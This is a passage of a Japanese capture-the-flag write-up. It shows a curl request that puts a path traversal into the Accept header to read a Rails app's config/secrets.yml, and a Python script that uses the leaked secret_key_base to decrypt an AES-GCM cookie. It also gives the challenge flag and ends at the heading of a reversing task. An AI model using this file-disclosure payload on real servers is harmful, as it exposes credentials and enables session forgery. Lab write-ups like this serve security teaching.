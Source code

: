 ```
$ curl https://(省略)/storelists -H 'Accept: ../../../config/secrets.yml{% raw %}{{{% endraw %}'
# Be sure to restart your server when you modify this file.

# Your secret key is used for verifying the integrity of signed cookies.
# If you change this key, all old signed cookies will become invalid!

# Make sure the secret is at least 30 characters and all random,
# no regular words or you'll be exposed to dictionary attacks.
# You can use `rake secret` to generate a secure secret key.

# Make sure the secrets in this file are kept private
# if you're sharing your code publicly.

# Do not keep production secrets in the repository,
# instead read values from the environment.
production:
  secret_key_base: 4e78e9e627139829910a03eedc8b24555fabef034a8f1db7443f69c4d4a1dbee7673687a2bf62d7891aa38d39741395b855ced25200f046c280bb039ce53de34
```

`secret_key_base` が得られました。

`/flag` にアクセスしたときに表示された文字列を Python と [PyCryptodome](https://pycryptodome.readthedocs.io/en/latest/) を使って復号しましょう。

```python
from base64 import b64decode
from Crypto.Cipher import AES # https://pycryptodome.readthedocs.io/en/latest/

encrypted, nonce, tag = 'bQIDwzfjtZdvWLH+HD5jhhZW4917cFKbx7LDRPzsL3JXqQ8VJp5RYfKIw5xqe/xhLg==--cUS9fQetfBC8wsV7--E8vQbRF4vHovYlPFvH3UnQ=='.split('--') # とりあえず -- で区切る
encrypted, nonce, tag = b64decode(encrypted), b64decode(nonce), b64decode(tag) # Base64 っぽいのでデコード
key = b'4e78e9e627139829910a03eedc8b24555fabef034a8f1db7443f69c4d4a1dbee7673687a2bf62d7891aa38d39741395b855ced25200f046c280bb039ce53de34'[:32]

# GCM モードで復号、
cipher = AES.new(key, AES.MODE_GCM, nonce=nonce)
plaintext = cipher.decrypt_and_verify(encrypted, tag)
print(plaintext)
```

```
$ python3 solve.py
b'\x04\x08I",ctf4b{06a46a95f2078ae095470992cd02f419}\x06:\x06ET'
```

フラグが得られました。

```
ctf4b{06a46a95f2078ae095470992cd02f419}
```

## Reversing
### SecconPass (425)
> パスワード管理アプリケーションを解析してフラグを手に入れよう
> 
> 添付ファイル: 52de9ec78b843e17a1fce6733d38d5ef_secconpass
